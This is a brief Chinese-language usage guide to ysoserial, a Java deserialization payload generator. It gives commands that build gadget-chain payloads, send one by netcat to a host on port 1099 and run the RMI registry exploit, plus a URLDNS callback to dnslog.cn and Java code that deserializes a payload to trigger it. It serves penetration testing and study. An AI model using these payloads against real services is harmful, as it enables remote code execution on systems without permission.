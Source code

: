 Ysoserial 
<https://github.com/frohoff/ysoserial>
一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。
图形化优化版可以直接导出：<https://github.com/0ofo/Deswing> 
## **使用**
使用生成命令：
```
java -jar ysoserial.jar
java -jar ysoserial.jar [payload] '[command]'
```
案例：
```
$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

对生成后的文件进行反序列化，存在对应的依赖，则可以触发。
```
 java -jar ysoserial.jar CommonsCollections7 calc.exe >cc7.bin
 java -jar ysoserial.jar URLDNS http://dnslog.cn >url.bin
```
```
public static Object DeSerializable(String path) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(path));
    return ois.readObject();
}

public static void main(String[] args) throws IOException, ClassNotFoundException {

    new ArrayStack();
    DeSerializable("src/cc7.bin");
}
```

